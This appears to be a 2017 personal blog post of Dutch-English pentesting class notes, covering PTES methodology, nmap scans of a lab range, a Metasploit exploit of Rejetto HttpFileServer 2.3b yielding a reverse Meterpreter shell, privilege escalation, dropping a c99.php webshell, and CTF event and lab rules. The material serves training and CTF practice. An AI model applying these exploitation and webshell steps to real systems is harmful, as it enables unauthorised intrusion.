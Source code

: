 ```yaml
---
layout: post
title:  "Pentesting"
image: ''
date:   2017-10-13 00:00:00
tags:
- ctf
- hacking
- pentesting
description: ''
categories:
- ctf
- hacking
- pentesting
---
```


Pentesting
- wat
OS
Databases
WebApplicaties
Netwerken
Programeertalen

- Pentester toolkits
Web attack
System attack
Network attack


- Methodiek
PTES
pre-engagement
intelligence ghatering
Threat modeling
vulnerabilities analys
Explotiation
Port explotation
Reporting


OSSTMM



engagement


Information ghatering				-Get IP's
Footprinting and scanning			-OS Ports and Services
[NMAP]

Vulnerability assessment			-Manual - automated
[search engines]

Explotiation 						-Web APP System network
[metasploit]

Reporting							-Result


Send payload

reverse TCP Connection - Meterpeter
opgeven - Rhost LHost

- Demo
Dokters Pratkijk
Type test = 	BlackBox
Range = 		172.16.2.0/24
Do not Attack = 172.16.2.1

Kali Linux 2.0
van Offensive Security




nmap -sn 172.16.2.0/24

syn scan halve hi scan
nmap -sS 172.16.2.10 172.16.2.15 172.16.2.20

nmap scripts
nmap --scrip http-headers 172.16.2.20

nmap -sV 172.16.2.20

nmap -sV -p 8080 172.16.2.10

nmap -P- scan alle poorten

10 imp
15 imp
20 imp

sql injection op praat dingetje


source zoek naar ahrf links die intresant zijn

172.16.2.20/downloads

httpfileserver httpd 2.3b rejetto

exploit-db.com

msfconsole
- search httpfileserver
- use exploit/x/x
- show options
- set RHOST REMOTEIP
- set RPOTY 8080
- set SRVHOST LOCALIP
- show options
- LHOST
- exploit

makes reverse connetction from 8080 to my 4444

sysinfo
ipconfig
getuid
getsystem
shell to get into dos

go to desktop see whats there

rdesk = remote desk voor windows :o?

python -m SimpleHTTPServer
dan kun je downloaden
c99.php to have a webshell




########AANKOMENDE CTFS########
platform voor informatiebeveiliging
pvib.nl donderdag 5 oktober

ultimum
ctf036.nl		maart april

ctf/kpmg
cqure.nl		juli

securelink
securelink.net 	januari




########war games########
overthewire.org
hackthissite.org
root-me.org
ctftime.org
pwnable.tw



nmap dirbuster curl smbclient
dirb gobuster wget rpcclient
nikto ftp python meteroreter
wpscan mysql perl php
hydra unicornscan metasploit msfvenom
netcat john firefox enum4linux
coffee brain google ......




5 machines
vind 1 of 2 flags.txt per server
c:/users/admin/desktop/flag.txt
mail inhound + ip naar info@greater.nl

greater-ctf
Diederick

proxy 172.16.1.1 voor inet port 3128
van usb option inhouden bij opstarten


alleen range 172.16.1.0 - 172.16.1.49
ignore 172.16.1.1 and 50
do not attack esx
